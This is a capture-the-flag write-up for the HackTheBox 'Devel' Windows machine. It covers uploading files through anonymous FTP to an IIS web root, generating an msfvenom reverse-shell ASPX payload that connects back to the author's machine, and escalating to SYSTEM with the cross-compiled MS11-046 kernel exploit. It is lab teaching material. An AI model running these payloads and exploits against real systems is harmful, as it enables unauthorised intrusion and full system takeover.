






HackTheBox - devel [no Metasploit]
Reconnaissance
Reconnaissance is everything in this game ~~ Let’s run a Nmap scan and see what’s exposed:
kali@kali:~$ export TARGET=10.10.10.5
kali@kali:~$ sudo nmap -sC -sV -oA nmap_tcp -p- $TARGET
Usual set of options:
-sCruns defaults Nmap scripts-sVtries to identify the software versions-oAwill output the results in files prefixed bynmap_tcpand using the formats xml, nmap and gnmap-p-will scan all ports and not the 1000 usual ones
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17 02:06AM <DIR> aspnet_client
| 03-17-17 05:37PM 689 iisstart.htm
|_03-17-17 05:37PM 184946 welcome.png
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Microsoft IIS httpd 7.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 155.17 seconds
I also ran a UDP scan, which turned up nothing:
kali@kali:~$ sudo nmap -sU -oA nmap_udp_1000 $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 15:30 EDT
Nmap scan report for 10.10.10.5
Host is up (0.044s latency).
All 1000 scanned ports on 10.10.10.5 are open|filtered
Nmap done: 1 IP address (1 host up) scanned in 45.94 seconds
-sUfor UDP scan-oAwill output the results in files prefixed bynmap_udp_1000and using the formats xml, nmap and gnmap
So in the end, we got:
| Port | Service | Version | Vuln? |
|---|---|---|---|
| 21 | ftp | Microsoft ftpd | can upload files |
| 80 | http | Microsoft IIS httpd 7.5 | can exec ASP(x) |
If the Vuln column doesn’t make any sense, it’s because I use this table to sum up information I gather during the pentest, it will make sense when you’re done reading the whole writeup.
Initial Foothold
A web server huh? Let’s try to visit that first!
IIS httpd 7.5
Visiting http://10.10.10.5 ~~ What a fantastic welcome page!
http://10.10.10.5/aspnet_client/system_web/2_0_50727/ => 403
Run a bunch of web scanners in the background, just in case:
kali@kali:~$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --url http://10.10.10.5/ -o gobuster_list-2.3-medium
kali@kali:~$ dirb http://10.10.10.5
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Tue Oct 20 16:22:59 2020
URL_BASE: http://10.10.10.5/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://10.10.10.5/ ----
==> DIRECTORY: http://10.10.10.5/aspnet_client/
---- Entering directory: http://10.10.10.5/aspnet_client/ ----
==> DIRECTORY: http://10.10.10.5/aspnet_client/system_web/
---- Entering directory: http://10.10.10.5/aspnet_client/system_web/ ----
-----------------
END_TIME: Tue Oct 20 16:34:15 2020
DOWNLOADED: 13836 - FOUND: 0
I also tried an IIS specific wordlist like https://github.com/digination/dirbuster-ng/blob/master/wordlists/vulns/iis.txt
But none of the scans turned up anything interesting.
Trace
In the meantime, let’s have a look at that TRACE thinggy in the Nmap logs:
Potentially risky methods: TRACE
From https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/TRACE
The HTTP
TRACEmethod performs a message loop-back test along the path to the target resource, providing a useful debugging mechanism.The final recipient of the request should reflect the message received, excluding some fields described below, back to the client as the message body of a
200(OK) response with aContent-Typeofmessage/http. The final recipient is either the origin server or the first server to receive aMax-Forwardsvalue of 0 in the request.Syntax
TRACE /index.html
I modified the GET to TRACE request using Firefox developer’s tools but we only get a 501 page saying the method is not implemented, probably a false positive from Nmap…

Since I was out of ideas on the web part, I moved to the FTP. Anonymous FTP login allowed sounds interesting right? Let’s go have a look at that~~
Microsoft ftpd
Anonymous Login
kali@kali:~$ ftp $TARGET
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17 02:06AM <DIR> aspnet_client
03-17-17 05:37PM 689 iisstart.htm
03-17-17 05:37PM 184946 welcome.png
226 Transfer complete.
We can retrieve iisstart.htm and welcome.png:
ftp> get welcome.png
local: welcome.png remote: welcome.png
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 820 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
184946 bytes received in 0.49 secs (371.0533 kB/s)
ftp> get iisstart.htm
local: iisstart.htm remote: iisstart.htm
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
689 bytes received in 0.05 secs (13.2977 kB/s)
But not aspnet_client:
ftp> get aspnet_client
local: aspnet_client remote: aspnet_client
200 PORT command successful.
550 Access is denied.
ftp> cd aspnet_client
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17 02:06AM <DIR> system_web
226 Transfer complete.
ftp> cd system_web
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17 02:06AM <DIR> 2_0_50727
226 Transfer complete.
ftp> cd 2_0_50727
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
iisstart.htm contains nothing interesting:
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<title>IIS7</title>
<style type="text/css">
<!--
body {
color:#000000;
background-color:#B3B3B3;
margin:0;
}
#container {
margin-left:auto;
margin-right:auto;
text-align:center;
}
a img {
border:none;
}
-->
</style>
</head>
<body>
<div id="container">
<a href="http://go.microsoft.com/fwlink/?linkid=66138&clcid=0x409"><img src="welcome.png" alt="IIS7" width="571" height="411" /></a>
</div>
</body>
Nor does welcome.png…
What about that weird path aspnet_client\system_web\2_0_50727?

Google is starting to know me a little too well… :D
New piece of information, the IIS server is likely using ASP.NET 2.0 and that means it can execute ASP code. Kinda like Apache executes PHP code natively.
BUT. Before we close that FTP connection, there’s something interesting… We can write on the ftp!
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
6 bytes sent in 0.00 secs (114.8897 kB/s)
And we can access it and see the content of the file at http://10.10.10.5/test.txt
web.config
Then I went poking around, looking for vulnerabilities on IIS7, I found https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/ which says that:
- The
web.configfile stores IIS7 settings - It’s similar to a
.htaccesson a Apache web server - Uploading a config file like
web.configor.htaccesscan help bypass filters on uploaded files.
Right, let’s try that then, I took the first example of web.config from the previous link. If the script works, it should return 3.
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>
<customErrors mode="Off"/>
</system.web>
<system.webServer>
<handlers accessPolicy="Read, Script, Write">
<add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
</handlers>
<security>
<requestFiltering>
<fileExtensions>
<remove fileExtension=".config" />
</fileExtensions>
<hiddenSegments>
<remove segment="web.config" />
</hiddenSegments>
</requestFiltering>
</security>
</system.webServer>
</configuration>
<%
Response.write("-"&"->")
Response.write(1+2)
Response.write("<!-"&"-")
%>
I uploaded it to the root ftp directory and try to visit the page, and we get an error 404:

But then it hit me, why am I trying to do complicated stuff with web.config, maybe we can just… upload an ASP code file and it will be executed when we visit the page?
Executing ASP Code
Create a hello.asp page with:
<!doctype html>
<html>
<head>
<title>test</title>
</head>
<body>
<%
Response.Write ("Hello world")
%>
</body>
</html>
Upload that on the ftp:
ftp> put hello.asp
Now, let’s visit http://10.10.10.5/hello.asp

So we can execute ASP code! Printing Hello world is all nice and stuff. But what about a reverse shell instead?
Generating A Reverse Shell With msfvenom
msfvenom can help us generate a payload that will fill our conditions.
It supports a shiton of payloads/format/encoding, so let’s filter on reverse TCP windows payloads:
kali@kali:~$ msfvenom --list payloads | grep windows.*reverse_tcp
[...] for brevity, not including all results that matches
windows/shell/reverse_tcp Spawn a piped command shell (staged). Connect back to the attacker
windows/shell/reverse_tcp_allports Spawn a piped command shell (staged). Try to connect back to the attacker, on all possible ports (1-65535, slowly)
windows/shell/reverse_tcp_dns Spawn a piped command shell (staged). Connect back to the attacker
windows/shell/reverse_tcp_rc4 Spawn a piped command shell (staged). Connect back to the attacker
windows/shell/reverse_tcp_rc4_dns Spawn a piped command shell (staged). Connect back to the attacker
windows/shell/reverse_tcp_uuid Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
windows/shell_reverse_tcp Connect back to attacker and spawn a command shell
[...]
Alright, let’s go with the old-fashioned windows/shell_reverse_tcp!
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f asp > shell.asp
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of asp file: 38281 bytes
-pis the payloadLHOST=is the host IP (ie the IP of your kali box)LPORT=is the host’s port-findicates the format
Next, we upload our fresh-from-the-forge shell.asp on the ftp:
kali@kali:~$ ftp $TARGET
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.asp
local: shell.asp remote: shell.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
38351 bytes sent in 0.00 secs (88.7727 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17 02:06AM <DIR> aspnet_client
03-17-17 05:37PM 689 iisstart.htm
10-25-20 03:23AM 38351 shell.asp
03-17-17 05:37PM 184946 welcome.png
226 Transfer complete.
Next, we need to setup a listener to catch our reverse TCP shell ~~
kali@kali:~$ nc -nlvp 4444
listening on [any] 4444 ...
Then visit http://10.10.10.5/shell.asp aaaaaaaand… A 500 error. Not what you expected huh? me neither!
A Real Shell
~~ random things happen here ~~
I ended up generating an aspx payload and it worked, no idea why ¯\_(ツ)_/¯
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f aspx > shell.aspx
But we have a shell!
kali@kali:~$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.5] 49158
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
c:\Users>cd babis
cd babis
Access is denied.
I guess iis apppool\web doesn’t have access to much besides the webserver, no user.txt for us :(( It’s not an interesting shell yet…
Privilege Escalation
Time for some Windows recon!
c:\Users>systeminfo
systeminfo
Host Name: DEVEL
OS Name: Microsoft Windows 7 Enterprise
OS Version: 6.1.7600 N/A Build 7600
OS Manufacturer: Microsoft Corporation
OS Configuration: Standalone Workstation
OS Build Type: Multiprocessor Free
Registered Owner: babis
Registered Organization:
Product ID: 55041-051-0948536-86302
Original Install Date: 17/3/2017, 4:17:31 ��
System Boot Time: 24/10/2020, 6:19:52 ��
System Manufacturer: VMware, Inc.
System Model: VMware Virtual Platform
System Type: X86-based PC
Processor(s): 1 Processor(s) Installed.
[01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version: Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory: C:\Windows
System Directory: C:\Windows\system32
Boot Device: \Device\HarddiskVolume1
System Locale: el;Greek
Input Locale: en-us;English (United States)
Time Zone: (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory: 1.023 MB
Available Physical Memory: 708 MB
Virtual Memory: Max Size: 2.047 MB
Virtual Memory: Available: 1.524 MB
Virtual Memory: In Use: 523 MB
Page File Location(s): C:\pagefile.sys
Domain: HTB
Logon Server: N/A
Hotfix(s): N/A
Network Card(s): 1 NIC(s) Installed.
[01]: Intel(R) PRO/1000 MT Network Connection
Connection Name: Local Area Connection
DHCP Enabled: No
IP address(es)
[01]: 10.10.10.5
So, a x86 Microsoft Windows 7 Enterprise, version 6.1.7600 N/A Build 7600. What can we do with that?
Let’s ask our favorite search engine:

The first link is https://www.exploit-db.com/exploits/40564,
Retrieve the exploit with searchsploit (or download the file from exploit-db):

The -m option (for mirror) can download an exploit given a EDB-ID for example:
kali@kali:~$ searchsploit -m 40564
Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
URL: https://www.exploit-db.com/exploits/40564
Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
File Type: C source, ASCII text, with CRLF line terminators
Copied to: /home/kali/40564.c
Now, how do we compile this thing for Windows on a Linux?
Cross-Compiling An Exploit
We got compiling instructions in the comments of the 40564.c file:
# Exploit notes:
# Privileged shell execution:
# - the SYSTEM shell will spawn within the invoking shell/process
# Exploit compiling (Kali GNU/Linux Rolling 64-bit):
# - # i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
MinGW is an open source compiler suite that allow you to build Windows binaries from a Linux box.
Let’s do a quick search using apt to find the right package to install:
kali@kali:~$ apt search mingw
[...]
mingw-w64/kali-rolling 8.0.0-1 all
Development environment targeting 32- and 64-bit Windows
[...]
Install mingw-w64:
apt install mingw-w64
Compile the previously downloaded exploit:
kali@kali:~$ i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
/!\ Apparently the order of the argument matters:
kali@kali:~$ i686-w64-mingw32-gcc -o 40564.exe -lws2_32 40564.c
/usr/bin/i686-w64-mingw32-ld: /tmp/cclVdVHI.o:40564.c:(.text+0x8e6): undefined reference to `_imp__WSAStartup@8'
/usr/bin/i686-w64-mingw32-ld: /tmp/cclVdVHI.o:40564.c:(.text+0x964): undefined reference to `_imp__WSASocketA@24'
/usr/bin/i686-w64-mingw32-ld: /tmp/cclVdVHI.o:40564.c:(.text+0x977): undefined reference to `_imp__WSAGetLastError@0'
/usr/bin/i686-w64-mingw32-ld: /tmp/cclVdVHI.o:40564.c:(.text+0x9b4): undefined reference to `_imp__inet_addr@4'
/usr/bin/i686-w64-mingw32-ld: /tmp/cclVdVHI.o:40564.c:(.text+0x9cb): undefined reference to `_imp__htons@4'
/usr/bin/i686-w64-mingw32-ld: /tmp/cclVdVHI.o:40564.c:(.text+0xa00): undefined reference to `_imp__connect@12'
/usr/bin/i686-w64-mingw32-ld: /tmp/cclVdVHI.o:40564.c:(.text+0xa13): undefined reference to `_imp__WSAGetLastError@0'
/usr/bin/i686-w64-mingw32-ld: /tmp/cclVdVHI.o:40564.c:(.text+0xf7b): undefined reference to `_imp__WSACleanup@0'
-o <filename>specifies the name of the output file-lws2_32link to the Windows Socket 2.0 32-bit DLL
Putting the exploit on the machine
Transfer the exploit through the FTP:
ftp> put 40564.exe
local: 40564.exe remote: 40564.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
248650 bytes sent in 0.14 secs (1.7170 MB/s)
C:\inetpub\wwwroot>dir /s C:\40564.exe
dir /s C:\40564.exe
Volume in drive C has no label.
Volume Serial Number is 8620-71F1
Directory of C:\inetpub\wwwroot
26/10/2020 02:09 �� 248.650 40564.exe
1 File(s) 248.650 bytes
Total Files Listed:
1 File(s) 248.650 bytes
0 Dir(s) 24.383.385.600 bytes free
c:\inetpub\wwwroot>40564.exe
40564.exe
This program cannot be run in DOS mode.
Huh…. Asking our search engine yields https://security.stackexchange.com/a/179163. FTP has two modes to transfer files: ASCII and binary. Short story, ASCII is for plain-text files and may convert some characters (end of lines and control characters). Binary mode on the other hand does bit-by-bit exact transfer. The default mode is ASCII and it’s probably not that good for our exploit.
Use binary to switch to binary mode before transfering the exploit a second time:
kali@kali:~$ ftp $TARGET
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put 40564.exe
local: 40564.exe remote: 40564.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
247479 bytes sent in 0.13 secs (1.7622 MB/s)
ftp> 221 Goodbye.
And it works way better:
c:\inetpub\wwwroot>40564.exe
40564.exe
c:\Windows\System32>whoami
whoami
nt authority\system
PS: sometimes your search for user.txt fails miserably, and that’s okay, because there was a glitch in the matrix and the file is actually named user.txt.txt (same for root.txt.txt)
C:\Users\babis\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is 8620-71F1
Directory of C:\Users\babis\Desktop
18/03/2017 01:14 �� <DIR> .
18/03/2017 01:14 �� <DIR> ..
18/03/2017 01:18 �� 32 user.txt.txt
1 File(s) 32 bytes
2 Dir(s) 24.385.871.872 bytes free
Takeaways
We saw how to:
- exploit a FTP that allows anonymous connections and let random people (including me) upload files on it
- how to cross-compile an exploit for Windows from kali
- how to use a Windows kernel exploit to do a privilege escalation
- how to transfer correctly an exploit through FTP